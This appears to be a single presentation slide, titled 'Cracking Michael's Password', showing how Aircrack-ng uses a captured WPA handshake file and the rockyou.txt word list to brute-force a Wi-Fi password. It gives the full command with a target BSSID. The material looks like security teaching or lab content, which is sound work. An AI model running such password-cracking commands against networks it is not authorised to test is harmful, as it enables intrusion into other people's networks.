

# Cracking Michael’s Password
The packet and data captured in the .cap file can now we used by Aircrack-ng to search for the password. It requires a word list and works similar to JTR or Hydra.

$ aircrack-ng -w ~/Desktop/rockyou.txt -b E8:91:20:F6:5F:F5 WPAcrack-01.cap